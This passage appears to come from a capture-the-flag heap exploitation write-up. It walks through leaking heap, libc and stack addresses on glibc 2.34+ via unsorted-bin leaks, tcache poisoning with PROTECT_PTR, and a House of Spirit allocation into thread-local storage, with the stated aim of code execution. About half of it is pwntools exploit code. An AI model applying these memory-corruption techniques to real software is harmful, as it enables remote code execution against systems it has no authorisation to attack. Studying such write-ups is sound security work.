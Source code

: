 Using the guess_address() function, we first target the leak from Group A. By providing a known prefix (e.g. the content from the reallocated A2), we can recover 6 bytes from the unsorted bin metadata. After padding with two NULL bytes, we obtain the full 8-byte pointer, from which we derive the heap base (by aligning down to the page boundary).

```python
heap_leak = guess_address(io, 0x14*b'A2', total_length=6)
heap_addr = u64(heap_leak+b'\x00\x00')
heap_base = heap_addr & 0xFFFFFFFFFFFFF000
log.info("Found heap base: {}".format(hex(heap_base)))
```

The process is repeated for Group B to leak a libc pointer. Once we have the 6-byte leak, we similarly pad and compute the libc base using a known offset.

```python
libc_leak = guess_address(io, 0x14*b'B2', total_length=6)
libc_addr = u64(libc_leak+b'\x00\x00')
libc_base = (libc_addr & 0xFFFFFFFFFFFFF000) - 0x1d8000
log.info("Found libc base: {}".format(hex(libc_base)))
```

With both the heap and libc bases known, our exploit now has all the necessary information to create our own tcache pointers and perform a House of Spirits attack.


#### Step 5: Leaking the Stack Address via ThreadLocalCache (TLC)

Since glibc 2.34 removed malloc hooks, an additional trick is required to archive RCE: leveraging the ThreadLocalCache (TLC). As described above, the TLC is a thread-specific data area that, among other things, stores pointers to various segments—including the stack. By corrupting the tcache metadata (using a House of Spirits technique with Group C), we force the allocator to return a pointer into the TLC, which we then use to leak a stack address.

Steps for Group C:
 - **Prepare the Tcache**: Free chunks C4 and C3 so that the tcache becomes available for our manipulation.
 - **Corrupt the Header and Free C2**: Use an overflow on C1 (with \x31) to modify C2’s header, then free C2 to place it into the tcache.
 - **Inject a Fake Pointer into TLC**: Reallocate C2 with a payload that appends a concealed pointer (using the PROTECT_PTR helper) that points to the TLC area (and thus the stack).
 - **Force an Allocation into TLC**: Allocate C3 and then CT. The latter allocation returns a pointer into TLC. 
 - **Use brute force gadget again:** Finally, we brute-force 6 bytes from CT, pad them, and derive the stack base. 

```python
some_stack_addr = libc_base - 0x2240   # stack address I found in the TLC
pos = heap_base + 0xbe0
fake_malloc_tloc = PROTECT_PTR(pos, some_stack_addr)

delete(io, C4)
delete(io, C3)

edit(io, C1, C1+b'\x31')
delete(io, C2)
alloc(io, 0x30, C2+b'\x21\x00\x00\x00\x00\x00\x00\x00'+p64(fake_malloc_tloc))
edit(io, C1, C1+b'\x21')

alloc(io, 0x20, C3)
alloc(io, 0x20, CT)

stack_leak = b'\xc0\xe9\xff\xff\xff\x7f'
stack_leak = guess_address(io, CT, total_length=6)
stack_addr = u64(stack_leak+b'\x00\x00')
stack_ret = stack_addr - 0x130 # return alloc is reliably located here
log.info("Found stack addr (ret of alloc): {}".format(hex(stack_ret)))
```